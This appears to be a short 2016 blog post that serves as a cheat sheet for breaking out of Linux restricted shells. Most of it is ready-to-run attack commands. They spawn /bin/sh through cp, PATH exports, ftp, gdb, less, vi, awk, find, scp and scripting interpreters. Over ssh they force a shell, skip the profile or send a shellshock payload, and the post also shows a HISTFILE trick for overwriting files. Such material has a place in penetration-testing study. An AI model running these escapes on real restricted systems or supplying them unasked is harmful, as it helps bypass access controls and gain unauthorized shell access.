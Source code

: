 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-23
---
```

This is a quick post on breaking out of linux jail/restricted shells.

* Always run your reconnaissance!
  * Run **env** to list out exported environment variables.
  * **echo $SHELL** what shell are we in?
  * **echo $PATH** what is our path set to?
  * Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**
  * Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
>
* Quick wins from jail
  * Can you run **cp**? Just copy a file into your path.
    * **`cp /bin/sh /a/dir/from/path; sh`**
  * Is \'/\' allowed?
    * Run **`/bin/sh`**
  * Can you use **export**?
    * **`export PATH=/bin:/usr/bin:$PATH`**
    * **`export SHELL=/bin/sh`**
  * Do you have access to commands that let you execute different system commands?
    * **ftp: `!/bin/sh`**
    * **gdb: `!/bin/sh`**
    * **more/less/man: `?!/bin/sh`**
    * **vi/vim: `:!/bin/sh`**
    * **scp: `scp -S /tmp/naughty.sh x y:`**
    * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
    * **find `find / -name something -exec /bin/sh \;`**
    * Don\'t forget about your favorite language!
      * **python: `python -c 'import os; os.system("/bin/bash")'`**
      * **perl: `perl exec "/bin/sh";`**
      * **ruby: `ruby exec "/bin/sh"`**
      * **lua: `lua os.execute('/bin/sh')`**
>
* Quick wins from outside jail
  * Just execute commands before your shell is loaded.
    * **`ssh user@10.10.10.10 -t "/bin/sh"`**
  * Don\'t start the rc profile
    * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
  * Try shellshock
    * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**
>
* Getting creative
  * Using **tee** to write a script.
    * **`echo 'evil code' | tee script.sh`**
  * History file
    * Set **HISTFILE** variable to a file you want to overwrite
    * Set **HISTSIZE** variable to **0** then immediately to **100**
    * Execute lines that should be written to your file
    * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
